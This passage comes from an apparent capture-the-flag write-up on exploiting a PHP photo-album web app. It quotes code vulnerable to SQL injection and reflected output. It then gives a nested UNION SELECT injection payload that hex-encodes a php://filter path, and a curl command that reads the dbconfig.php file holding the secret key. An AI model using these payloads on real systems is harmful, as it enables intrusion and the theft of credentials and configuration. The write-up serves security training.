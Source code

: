 ```php
    $id=$r['id'];


    // Fetch image IDs from the database
    $sql_ids = "SELECT * FROM images where album_id=" . $id;
    $stmt_path= $conn->prepare($sql_ids);
    $stmt_path->execute();

    // Display the album id
    echo "<!-- Short tag: " . $_GET['short_tag'] . " - Album ID: " . $id . "-->\n";
    // Display images in a grid
    echo '<div class="grid-container">' . "\n";
    foreach ($stmt_path as $row) {
        // Get the image ID
        $path = $row["path"];
        $hash = hash_hmac('sha256', $path, $SECRET_KEY);

        // Create link to image.php with image ID
        echo '<div class="image-container">' . "\n";
        echo '<a href="/image.php?hash='. $hash . '&path=' . $path . '">';
        echo '<img src="/image.php?hash='. $hash . '&path=' . $path . '" alt="Image path: ' . $path . '">';
...
```
{: .wrap }

Reading the source code of `album.php`, we see that the application calculates hashes using HMAC-SHA256:

```php
$hash = hash_hmac('sha256', $path, $SECRET_KEY);
```

However, the `SECRET_KEY` is not defined inside `album.php` — instead, it includes `dbconfig.php`, so it is most likely that the key is defined there.

To retrieve `dbconfig.php`, we repeat the same method: hex-encode the path and create another payload:

```text
jxf' UNION SELECT "0 UNION SELECT 1,2,0x7068703a2f2f66696c7465722f636f6e766572742e6261736536342d656e636f64652f7265736f757263653d6462636f6e6669672e706870-- -"-- -
```

This allows us to fetch the hash for `php://filter/convert.base64-encode/resource=dbconfig.php`.

![Web 80 Album Sqli Ten](web_80_album_sqli10.webp){: width="1200" height="450"}

Reading the content of `dbconfig.php` gives:

```bash
$ curl -s 'http://10.10.152.169/image.php?hash=329e7517a6e3c82421ee8ce483271c69a71fbcc7e6956abde4957a63f4ad9ccf&path=php://filter/convert.base64-encode/resource=dbconfig.php' | base64 -d
```
{: .wrap }
